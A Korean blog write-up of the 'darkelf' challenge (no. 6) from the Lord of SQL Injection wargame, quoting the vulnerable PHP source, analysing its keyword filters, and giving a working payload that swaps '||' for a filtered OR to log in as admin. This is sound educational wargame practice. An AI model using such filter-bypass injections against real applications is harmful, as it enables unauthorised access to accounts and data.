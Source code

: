 ```yaml
---
title: Lord of SQL Injection Write Up No.6 Darkelf
date: 2019-08-17 22:42:40
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 6번 darkelf 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

`or`, `and`를 사용하지 않고 원하는 문자열을 `SELECT` 하도록 SQL을 조작할 수 있는지 확인한다.

### 소스 코드 분석

darkelf 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("darkelf");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
```

- GET방식으로 `pw`를 받고, `pw`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
- 또한, `pw`에 대소문자 구분 없이 `or`, `and` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("darkelf");
```

- 받은 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 `"admin"`이라는 값이 들어있음'이다.

## Solution

1. `||`, `&&` 이용

   논리 연산을 막기 위해 `OR`, `AND`를 필터링 한 문제이다.

   그러나 논리 연산은 위 두 연산자 뿐만 아니라 `||`, `&&` 연산자도 존재한다.

   `OR`은 `||`로 완전히 대체 가능하고, `AND`는 `&&`로 완전히 대체 가능하다.

   이때, URL에 직접 SQL Injection을 수행하는 경우 `&` 문자는 그대로 삽입하면 작동하지 않으므로 URL Encoding을 거친 `%26` 으로 삽입하여야 한다.

   ```url
   http://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=' || id='admin'-- -
   ```

   ```sql
   select id from prob_darkelf where id='guest' and pw='' || id='admin'-- -'
   ```

   이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.
